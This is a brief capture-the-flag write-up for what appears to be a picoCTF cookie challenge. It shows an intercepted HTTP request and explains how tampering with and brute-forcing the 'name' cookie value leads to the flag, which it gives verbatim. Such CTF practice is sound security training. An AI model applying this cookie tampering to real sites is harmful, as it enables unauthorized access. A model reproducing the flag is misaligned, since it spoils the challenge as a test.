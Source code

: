 # Solution

- Burpsuite and `intercept` the request of checking.

```bash
GET /check HTTP/1.1
Host: mercury.picoctf.net:64944
Content-Length: 18
Cache-Control: max-age=0
Origin: http://mercury.picoctf.net:64944
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en;q=0.9
Referer: http://mercury.picoctf.net:64944/
Accept-Encoding: gzip, deflate, br
Cookie: name= 1
Connection: keep-alive

name=snickerdoodle
```

- Change `Cookie: name= 1` to `Cookie: name= 2` you will see a different response.
- Brute force `Cookie: name`
- You will get at  `Cookie: name= 18`
- `picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}`

---
